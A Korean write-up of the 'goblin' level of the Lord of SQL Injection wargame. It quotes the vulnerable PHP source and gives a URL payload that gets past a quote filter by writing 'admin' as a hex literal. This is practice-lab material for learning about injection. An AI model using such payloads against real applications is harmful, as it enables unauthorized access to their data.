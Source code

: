 # Lord of SQL Injection No.3 - goblin
## 문제 출제 의도 
쿼트를 사용하지 않고 SELECT문을 조작하여 원하는 값을 얻을 수 있는지 확인한다.
## 소스 코드 분석
~~~
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
~~~
~~~
if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
~~~
받은 no값에 `'`, `"`, ` 가 들어가있으면 문제 풀이에 실패한다.
## Solution
1. 16진수 삽입
+ admin값을 쿼트를 사용해서 직접 넣어줄 수 없기 때문에 16진수를 사용하여 넣어준다.
~~~
http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=1 and 0 or id=0x61646d696e
~~~
~~~
select id from prob_goblin where id='guest' and no=-1 or id=0x61646d696e
~~~
따라서 이는 id 값에 admin이 들어가도록 하므로 문제가 풀린다.